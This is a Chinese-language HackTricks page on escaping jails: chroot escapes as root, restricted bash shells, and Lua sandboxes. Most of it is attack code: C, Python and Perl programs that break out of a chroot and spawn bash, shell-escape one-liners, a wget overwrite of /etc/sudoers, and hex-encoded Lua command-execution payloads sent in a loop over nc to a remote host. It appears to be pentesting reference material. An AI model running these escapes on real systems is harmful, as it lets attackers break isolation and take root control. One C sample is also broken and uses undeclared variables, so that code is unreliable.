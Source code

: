 # 逃离监狱环境

<details>

<summary><strong>从零开始学习AWS黑客攻击直至成为专家，通过</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>！</strong></summary>

支持HackTricks的其他方式：

* 如果您想在**HackTricks中看到您的公司广告**或**下载HackTricks的PDF版本**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 获取[**官方PEASS & HackTricks商品**](https://peass.creator-spring.com)
* 发现[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们独家的[**NFTs系列**](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram群组**](https://t.me/peass) 或在**Twitter** 🐦 上**关注**我 [**@carlospolopm**](https://twitter.com/carlospolopm)**。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享您的黑客技巧。

</details>

## **GTFOBins**

**在** [**https://gtfobins.github.io/**](https://gtfobins.github.io) **搜索是否可以执行任何具有"Shell"属性的二进制文件**

## Chroot逃逸

来自[wikipedia](https://en.wikipedia.org/wiki/Chroot#Limitations)：Chroot机制**不旨在防御**有意篡改的**特权**（**root**）**用户**。在大多数系统上，chroot上下文不能正确堆叠，具有足够权限的chroot程序**可以执行第二次chroot以逃脱**。\
通常这意味着要逃脱，你需要在chroot内部成为root。

{% hint style="success" %}
**工具** [**chw00t**](https://github.com/earthquake/chw00t) 被创建来滥用以下场景并从`chroot`中逃脱。
{% endhint %}

### Root + CWD

{% hint style="warning" %}
如果你在chroot内部是**root**，你**可以逃脱**创建**另一个chroot**。这是因为在Linux中，两个chroots不能共存，所以如果你创建一个文件夹，然后在这个新文件夹上**创建一个新的chroot**，并且**你在它外面**，你现在将会**在新chroot的外面**，因此你将会在文件系统中。

这是因为通常chroot**不会**将你的工作目录移动到指定的目录，所以你可以创建一个chroot但在外面。
{% endhint %}

通常你不会在chroot监狱内找到`chroot`二进制文件，但你**可以编译、上传并执行**一个二进制文件：

<details>

<summary>C: break_chroot.c</summary>
```c
#include <sys/stat.h>
#include <stdlib.h>
#include <unistd.h>

//gcc break_chroot.c -o break_chroot

int main(void)
{
mkdir("chroot-dir", 0755);
chroot("chroot-dir");
for(int i = 0; i < 1000; i++) {
chdir("..");
}
chroot(".");
system("/bin/bash");
}
```
</details>

<details>

<summary>Python</summary>
```python
#!/usr/bin/python
import os
os.mkdir("chroot-dir")
os.chroot("chroot-dir")
for i in range(1000):
os.chdir("..")
os.chroot(".")
os.system("/bin/bash")
```
<details>

<summary>Perl</summary>

</details>
```perl
#!/usr/bin/perl
mkdir "chroot-dir";
chroot "chroot-dir";
foreach my $i (0..1000) {
chdir ".."
}
chroot ".";
system("/bin/bash");
```
</details>

### Root + 已保存的文件描述符

{% hint style="warning" %}
这种情况与前一个案例类似，但在这种情况下，**攻击者存储了一个指向当前目录的文件描述符**，然后**在新文件夹中创建chroot**。最后，由于他可以**访问**那个**FD**，并且该FD位于chroot**之外**，他访问它并且**逃逸**。
{% endhint %}

<details>

<summary>C: break_chroot.c</summary>
```c
#include <sys/stat.h>
#include <stdlib.h>
#include <unistd.h>

//gcc break_chroot.c -o break_chroot

int main(void)
{
mkdir("tmpdir", 0755);
dir_fd = open(".", O_RDONLY);
if(chroot("tmpdir")){
perror("chroot");
}
fchdir(dir_fd);
close(dir_fd);
for(x = 0; x < 1000; x++) chdir("..");
chroot(".");
}
```
</details>

### Root + Fork + UDS (Unix Domain Sockets)

{% hint style="warning" %}
FD 可以通过 Unix Domain Sockets 传递，因此：

* 创建子进程 (fork)
* 创建 UDS 以便父子进程通信
* 在子进程中运行 chroot 到不同文件夹
* 在父进程中创建一个 FD，指向子进程 chroot 外的文件夹
* 通过 UDS 将该 FD 传递给子进程
* 子进程 chdir 到该 FD，由于它位于其 chroot 外部，它将逃离监狱
{% endhint %}

### Root + Mount

{% hint style="warning" %}
* 将根设备 (/) 挂载到 chroot 内部的目录中
* Chroot 进入该目录

这在 Linux 中是可能的
{% endhint %}

### Root + /proc

{% hint style="warning" %}
* 将 procfs 挂载到 chroot 内部的目录中（如果尚未挂载）
* 寻找具有不同 root/cwd 条目的 pid，例如：/proc/1/root
* Chroot 进入该条目
{% endhint %}

### Root(?) + Fork

{% hint style="warning" %}
* 创建 Fork（子进程）并 chroot 进入文件系统更深层的不同文件夹，并在其中 CD
* 从父进程中，将子进程所在的文件夹移动到子进程 chroot 之前的文件夹
* 这个子进程将发现自己在 chroot 外部
{% endhint %}

### ptrace

{% hint style="warning" %}
* 过去用户可以从其自身的进程中调试自己的进程... 但这默认不再可能
* 无论如何，如果可能，你可以 ptrace 进入一个进程并在其中执行 shellcode（[参见此示例](linux-capabilities.md#cap_sys_ptrace)）。
{% endhint %}

## Bash 监狱

### 枚举

获取关于监狱的信息：
```bash
echo $SHELL
echo $PATH
env
export
pwd
```
### 修改 PATH

检查是否可以修改 PATH 环境变量
```bash
echo $PATH #See the path of the executables that you can use
PATH=/usr/local/sbin:/usr/sbin:/sbin:/usr/local/bin:/usr/bin:/bin #Try to change the path
echo /home/* #List directory
```
### 使用 vim
```bash
:set shell=/bin/sh
:shell
```
### 创建脚本

检查是否可以创建一个内容为 _/bin/bash_ 的可执行文件
```bash
red /bin/bash
> w wx/path #Write /bin/bash in a writable and executable path
```
### 通过 SSH 获取 bash

如果您通过 ssh 访问，可以使用这个技巧来执行一个 bash shell：
```bash
ssh -t user@<IP> bash # Get directly an interactive shell
ssh user@<IP> -t "bash --noprofile -i"
ssh user@<IP> -t "() { :; }; sh -i "
```
### 声明
```bash
declare -n PATH; export PATH=/bin;bash -i

BASH_CMDS[shell]=/bin/bash;shell -i
```
### Wget

你可以覆盖例如sudoers文件
```bash
wget http://127.0.0.1:8080/sudoers -O /etc/sudoers
```
### 其他技巧

以下页面包含了关于逃离受限Linux shell的技巧：

[**https://fireshellsecurity.team/restricted-linux-shell-escaping-techniques/**](https://fireshellsecurity.team/restricted-linux-shell-escaping-techniques/)\
[https://pen-testing.sans.org/blog/2012/06/06/escaping-restricted-linux-shells](https://pen-testing.sans.org/blog/2012/06/06/escaping-restricted-linux-shells)\
[https://gtfobins.github.io](https://gtfobins.github.io)\
**以下页面也可能有趣：**

{% content-ref url="../useful-linux-commands/bypass-bash-restrictions.md" %}
[bypass-bash-restrictions.md](../useful-linux-commands/bypass-bash-restrictions.md)
{% endcontent-ref %}

## Python 监狱

关于逃离Python监狱的技巧，请参阅以下页面：

{% content-ref url="../../generic-methodologies-and-resources/python/bypass-python-sandboxes/" %}
[bypass-python-sandboxes](../../generic-methodologies-and-resources/python/bypass-python-sandboxes/)
{% endcontent-ref %}

## Lua 监狱

在此页面中，你可以找到在Lua中可以访问的全局函数：[https://www.gammon.com.au/scripts/doc.php?general=lua\_base](https://www.gammon.com.au/scripts/doc.php?general=lua\_base)

**使用命令执行的Eval：**
```bash
load(string.char(0x6f,0x73,0x2e,0x65,0x78,0x65,0x63,0x75,0x74,0x65,0x28,0x27,0x6c,0x73,0x27,0x29))()
```
一些**不使用点调用库函数**的技巧：
```bash
print(string.char(0x41, 0x42))
print(rawget(string, "char")(0x41, 0x42))
```
列举库的函数：
```bash
for k,v in pairs(string) do print(k,v) end
```
请注意，每次在**不同的lua环境中执行前面的单行命令时，函数的顺序都会改变**。因此，如果您需要执行一个特定的函数，您可以通过加载不同的lua环境并调用库的第一个函数来执行暴力破解攻击：
```bash
#In this scenario you could BF the victim that is generating a new lua environment
#for every interaction with the following line and when you are lucky
#the char function is going to be executed
for k,chr in pairs(string) do print(chr(0x6f,0x73,0x2e,0x65,0x78)) end

#This attack from a CTF can be used to try to chain the function execute from "os" library
#and "char" from string library, and the use both to execute a command
for i in seq 1000; do echo "for k1,chr in pairs(string) do for k2,exec in pairs(os) do print(k1,k2) print(exec(chr(0x6f,0x73,0x2e,0x65,0x78,0x65,0x63,0x75,0x74,0x65,0x28,0x27,0x6c,0x73,0x27,0x29))) break end break end" | nc 10.10.10.10 10006 | grep -A5 "Code: char"; done
```
**获取交互式lua shell**：如果你处于一个受限的lua shell中，你可以通过以下方式调用来获取一个新的lua shell（希望是无限制的）：
```bash
debug.debug()
```
## 参考资料

* [https://www.youtube.com/watch?v=UO618TeyCWo](https://www.youtube.com/watch?v=UO618TeyCWo) (幻灯片: [https://deepsec.net/docs/Slides/2015/Chw00t\_How\_To\_Break%20Out\_from\_Various\_Chroot\_Solutions\_-\_Bucsay\_Balazs.pdf](https://deepsec.net/docs/Slides/2015/Chw00t\_How\_To\_Break%20Out\_from\_Various\_Chroot\_Solutions\_-\_Bucsay\_Balazs.pdf))

<details>

<summary><strong>通过</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>从零开始学习AWS黑客攻击技巧！</strong></summary>

支持HackTricks的其他方式：

* 如果您希望在**HackTricks中看到您的公司广告**或**下载HackTricks的PDF版本**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 获取[**官方的PEASS & HackTricks商品**](https://peass.creator-spring.com)
* 发现[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们独家的[**NFTs系列**](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram群组**](https://t.me/peass) 或在 **Twitter** 🐦 上**关注**我 [**@carlospolopm**](https://twitter.com/carlospolopm)**。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享您的黑客技巧。**

</details>
